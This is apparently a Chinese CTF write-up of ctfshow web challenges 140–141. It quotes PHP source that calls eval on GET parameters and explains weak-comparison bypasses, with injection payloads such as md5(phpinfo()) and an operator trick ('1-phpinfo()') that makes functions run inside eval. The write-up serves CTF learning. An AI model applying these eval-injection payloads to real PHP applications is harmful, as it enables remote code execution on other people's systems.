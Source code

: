 ```
if(intval($code) == 'ctfshow')
```

这里进行的是弱比较,可以用null绕过

```
$code = eval("return $f1($f2());"); 
```

```
intval('a')==0 intval('.')==0 intval('/')==0
```

payload

```
md5(phpinfo())
md5(sleep())
md5(md5())
current(localeconv)
sha1(getcwd())     因为/var/www/html md5后开头的数字所以我们改用sha1
```

实际上乱弄一些函数都可以，最后得到的结果是null同样符合条件



### web141

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
} 
```

`/^\W+$/` 作用是匹配非数字字母下划线的字符,

看看下面这句话

```
eval("return 1;phpinfo();");
```

显然这里的`phpinfo()`是不执行的，但数字是可以和命令进行一些运算的，例如 `1-phpinfo();`是可以执行phpinfo()命令的。

```
eval("return 1-phpinfo();");//可以执行
```
